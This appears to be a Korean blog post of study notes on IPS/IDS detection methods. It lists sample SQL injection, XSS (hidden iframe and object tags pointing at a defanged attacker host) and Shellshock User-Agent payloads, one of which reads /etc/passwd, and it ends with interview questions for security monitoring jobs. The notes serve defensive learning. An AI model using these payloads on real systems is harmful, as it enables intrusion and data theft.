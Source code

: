 ```yaml
---
layout : post
title : IPS/IDS
---
```


- Signiture - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS공격

- 행위기반 - 보편화되진 않지만 쓰이고있긴하다

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지.

  ​	 IDS에 차단하는 기능을 가지고 있는 것.

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?

